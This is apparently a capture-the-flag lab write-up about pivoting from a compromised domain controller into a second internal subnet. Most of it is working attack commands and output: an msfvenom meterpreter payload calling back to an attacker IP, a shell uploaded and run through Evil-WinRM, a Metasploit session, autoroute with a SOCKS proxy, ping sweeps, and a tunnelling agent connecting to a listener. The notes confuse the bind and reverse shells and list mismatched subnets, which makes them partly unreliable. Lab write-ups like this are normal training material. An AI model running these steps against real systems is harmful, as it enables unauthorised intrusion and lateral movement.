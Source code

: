 ### Others suggest...

We can get a clue that there's another Domain controller from [172.16.1.20(DC01)](../172.16.1.20(DC01).md).
Given that, I was supposed to find the new network segent.
However, it didn't work when I tried...
So let's just skip the finding process, and start working on next step.

### What I did

Assuming that we have another network segment 172.16.2.0/24.
Let's scan what hosts exist in the network.

##### Find hosts

```perl
C:\Windows\system32> for /L %i in (1,1,254) do @ping -n 1 -w 1000 172.16.2.%i | find "Reply from" && echo 172.16.2.%i is reachable
 
for /L %i in (1,1,254) do @ping -n 1 -w 1000 172.16.2.%i | find "Reply from" && echo 172.16.2.%i is reachable
Reply from 172.16.2.5: bytes=32 time<1ms TTL=127
172.16.2.5 is reachable
```

##### Pivoting via meterpreter autoroute

First, create a bind-shell payload.

```bash
┌──(kali㉿kali)-[~/htb/DC01]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=9000 -f psh -o rshell.ps1  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of psh file: 3231 bytes
Saved as: rshell.ps1
```

Upload it on DC01 and run it(after run msfconsole).

```powershell
*Evil-WinRM* PS C:\Users\katwamba\Documents> upload bind_shell.exe
Info: Uploading /home/kali/htb/DC01/bind_shell.exe to C:\Users\katwamba\Documents\bind_shell.exe
Data: 9556 bytes of 9556 bytes copied
Info: Upload successful!



*Evil-WinRM* PS C:\Users\katwamba\Documents> .\bind_shell.exe
```

Run msfconsole.

```bash
┌──(kali㉿kali)-[~/htb/DC01]
└─$ msfconsole
Metasploit tip: To save all commands executed since start up to a file, use the 
makerc command

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 > set LPORT 4444
msf6 > set RHOST 172.16.1.20

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > options

Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     172.16.1.20      no        The target address

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 172.16.1.20:4444
[*] Sending stage (201798 bytes) to 172.16.1.20
[*] Meterpreter session 1 opened (192.168.45.131:32871 -> 172.16.1.20:4444) at 2025-01-08 14:04:07 -0500

meterpreter >
```

Then I ran `autoroute` to enable pivoting.

Set SOCKS Proxy.

```bash
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
SRVPORT => 1080
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/socks_proxy) > 
[*] Starting the SOCKS proxy server
```

Set `autoroute`.

```bash
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION  1                yes       The session to run this module on
   SUBNET   172.16.2.0       no        Subnet (IPv4, for example, 10.10.10.0)

View the full module info with the info, or info -d command.

msf6 post(multi/manage/autoroute) > run

[*] Running module against DANTE-DC01
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.1.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
```

Set `proxychains` on kali.

```bash
vi /etc/proxychains.conf

socks5 127.0.0.1 1080
```





Ping sweep for 172.16.1.0/24

```sql
msf6 > use multi/gather/ping_sweep
msf6 post(multi/gather/ping_sweep) > options

Module options (post/multi/gather/ping_sweep):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       IP Range to perform ping sweep against.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/gather/ping_sweep) > set RHOSTS 172.16.1.0/24
RHOSTS => 172.16.1.0/24
msf6 post(multi/gather/ping_sweep) > set SESSION 1
SESSION => 1
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 172.16.1.0/24
[+]     172.16.1.5 host found
[+]     172.16.1.17 host found
[+]     172.16.1.13 host found
[+]     172.16.1.19 host found
[+]     172.16.1.10 host found
[+]     172.16.1.12 host found
[+]     172.16.1.20 host found
[+]     172.16.1.101 host found
[+]     172.16.1.102 host found
[+]     172.16.1.100 host found
[*] Post module execution completed
```





listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

listener_list

. .\agent.exe -connect 172.16.1.100:11601 -ignore-cert